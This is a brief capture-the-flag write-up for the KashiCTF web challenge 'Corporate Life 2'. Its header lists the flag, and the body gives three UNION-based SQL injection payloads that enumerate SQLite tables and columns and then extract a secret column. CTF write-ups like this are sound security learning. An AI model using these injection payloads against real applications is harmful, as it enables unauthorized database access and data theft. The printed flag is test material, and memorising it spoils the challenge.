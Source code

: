 ```yaml
---
title: "Corporate Life 2"
categories: Web Exploitation
tags: 
draft: false
completedDuringEvent: true
submitted: true
flags: KashiCTF{b0r1ng_old_c0rp0_l1f3_am_1_r1gh7_IOiUPTqB}
---
```

> ~

---

Continuation of `Corporate Life 1`, where the same payload did not return a flag. Instead, i attempted to enumerate the database structure to locate relevant tables.

## Database Enumeration

To identify tables in the database, i used the following **SQL injection** payload:

```json
{
  "filter": "1' UNION SELECT name, NULL, NULL, NULL, NULL, NULL FROM sqlite_master WHERE type='table' --"
}
```

Once the table names were retrieved, i focused on the `flags` table and attempted to enumerate its columns using:

```json
{
  "filter": "1' UNION SELECT name, NULL, NULL, NULL, NULL, NULL FROM pragma_table_info('flags') --"
}
```

## Extracting the Flag

After identifying the `secret_flag` column in the `flags` table, I extracted its contents with the following payload:

```json
{
  "filter": "1' UNION SELECT request_id, secret_flag, NULL, NULL, NULL, NULL FROM flags --"
}
```

This successfully revealed the flag.
